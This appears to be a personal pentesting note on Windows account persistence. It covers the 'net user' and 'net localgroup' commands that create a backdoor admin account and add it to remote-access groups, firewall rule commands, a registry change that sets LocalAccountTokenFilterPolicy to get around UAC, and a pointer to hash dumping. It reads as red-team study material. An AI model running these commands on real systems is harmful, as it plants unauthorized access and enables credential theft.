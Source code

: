 # User Account Types
User accounts can be of several types:

- **Domain Administrators:** This is typically the highest account level you will find in a Domain Environment. An account with this level of privilege can manage all accounts of the organization, their access levels, and almost anything you can think of.
- **Services: Accounts:** used by software to perform their tasks. Some Services are Local System Account, Network Service Account, Local Service Account, Service-specific Accounts (SQLServiceAccount, ExchangeServiceAccount, www-data or httpd)
- **Domain Accounts:** These accounts are only Maintained, Manage & valid on the centrailized system and can be used over the domain
- **Local accounts:** These accounts are only Maintained, Manage & valid on the local system and can not be used over the domain. Local Accounts are of 2 types, Local admin & Normal user.
# New User Persistence
A workflow to Create Accounts consists of creating a new account, making that part of high privileged group & using that to remotely login on target via Remote Protocols or any other Persistence technique chained with this account.
* Requires ADMINISTRATIVE privileges.

_The Create an Account_ **_methodology_** _is simple;_

1. Create a New Account or User & make that user part of ADMIN or high priv Member
2. Make sure that the new user is part of Remote Desktop Users (RDP P-3389 TCP) or Remote Management Users (WinRM P-5985/5986 TCP), SMB etc.
3. Check if Remote Protocols services ports are open & allowed through the firewall.
4. log in to that user via Remote Protocol using his password.

**Stealthy Level:** This a created user as a backdoor isn’t hidden at all & Account Creation & Users part of high privileges groups in a network are highly monitored via the Blue team.

## Steps: Create a New User
1. Create a user: `net user daethyra Password123 /add /domain
2. Give yourself privileges: `net localgroup "administrators" daethyra /add`
3. Add yourself to groups with privileges to a service you want to exploit: `net localgroup "Remote Desktop Users" daethyra /add`
4. You may wish to open ports through the Windows Firewall: 
	1. `New-NetFirewallRules -DisplayName "HTTP (TCP-In)" -direction Inbound -Protocol TCP -LocalPort <PORT> -Action Allow`
	2. `New-NetFirewallRules -DisplayName "HTTP (TCP-In)" -direction Outbound -Protocol TCP -LocalPort <PORT> -Action Allow`
[1](https://infosecwriteups.com/persistence-techniques-beginner-to-advanced-for-windows-50aca469336)

## Manipulate Existing Users
Now we'll work with an existing account, giving it privileges, via group assignment, to read/write to the registry, and login/execute commands remotely.
> `net localgroup "Backup Operators" daethyra /add`

Note: Users in this “Backup Operators” Group won’t have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL.

For Remote Login we’ll add our user to “Remote Management Users” or WinRM.
> `net localgroup "Remote Management Users" daethyra /add`

### Remote Login
WinRM acts as the communication mechanism between the client running PowerShell and the remote Windows system. It enables the execution of PowerShell commands and scripts on remote machines.

By Default Firewall allows WinRM port on the Windows server. However, if you remotely login into victim you’ll see that the manipulated user is part of the “Backup Operator” group, and yet still might not be able to leverage its privileges because `LocalAccountTokenFilterPolicy`, of UAC, strips any local account of its administrative privileges when logging in remotely.
#### Bypass UAC
Disable `LocalAccountTokenFilterPolicy`: `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

The attacker may now read or write any file or registry on the system. She may also use [SecretsDump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to dump hashes of all users that exist on the system.
# Resources
1. https://infosecwriteups.com/persistence-techniques-beginner-to-advanced-for-windows-50aca469336

#windows #persistence #user-manipulation 